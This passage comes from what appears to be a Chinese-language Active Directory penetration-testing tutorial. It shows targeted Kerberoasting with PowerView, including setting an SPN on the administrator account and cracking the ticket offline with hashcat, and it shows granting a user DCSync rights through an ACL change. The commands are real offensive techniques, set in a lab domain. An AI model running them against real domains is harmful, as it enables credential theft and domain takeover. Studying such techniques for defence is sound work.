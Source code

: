 Kerberoasting:允许攻击者获取到TGS离线破解等到目标用户的密码。详细内容可以参考[targeted-kerberoasting](http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/)。（我人晕了，我正在写这篇文章的时候发现，3gstudent刚写了[域渗透-Kerberoasting](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/)，有几次我在研究的东西不久，大佬就会发一个关于这个的文章，比如ACL，GPO，exchange等，大佬下一次是不是会有exchange的利用？）

因为默认域用户一般是没有SPN的，只有服务账号krbtgt或者sqlsvc，域内主机账号才会有SPN：

[![](https://p5.ssl.qhimg.com/t010b3dcf09d53a0bdc.png)](https://p5.ssl.qhimg.com/t010b3dcf09d53a0bdc.png)

上面就是我给管理员用户设置了一个SPN。

PS代码：

```
#以管理员权限运行注册一个SPN服务
Set-DomainObject -Identity administrator -Set @`{`serviceprincipalname = 'a/bdsa'`}`
Get-DomainUser administrator -Properties serviceprincipalname
```

在域内一台普通机器上，使用普通用户登录然后执行：

[![](https://p1.ssl.qhimg.com/t01d70f28fb9e409d00.png)](https://p1.ssl.qhimg.com/t01d70f28fb9e409d00.png)

然后把ticket拿去离线破解`hashcat64.exe -m 13100 -a 0 hash.txt password.txt`

[![](https://p4.ssl.qhimg.com/t01d8c5424278909c3f.png)](https://p4.ssl.qhimg.com/t01d8c5424278909c3f.png)

清除SPN：

```
Set-DomainObject -Identity administrator -clear serviceprincipalname
```

再在域中获取就会显示失败：

[![](https://p2.ssl.qhimg.com/t01bc07f839283888c8.png)](https://p2.ssl.qhimg.com/t01bc07f839283888c8.png)

可以参考[htb-writeup-active](https://snowscan.io/htb-writeup-active/)，其中就使用到了kerberoast的方法。

### <a class="reference-link" name="3.dcsync"></a>3.dcsync

`DCSYNC` `DS-Replication-Get-Changes-All(1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)` ，就是向对象添加一个ACE，使得普通用户也具有权限。

比如使用powerview:

```
#add dcsync
Add-DomainObjectAcl -TargetIdentity "DC=hack,DC=com" -PrincipalIdentity cond -Rights DCSync
#remove
remove-DomainObjectAcl -TargetIdentity "DC=hack,DC=com" -PrincipalIdentity cond -Rights DCSync
```

[![](https://p5.ssl.qhimg.com/t0132102eb7679f7c13.png)](https://p5.ssl.qhimg.com/t0132102eb7679f7c13.png)

在使用bloodhound查看dcsync的权限：

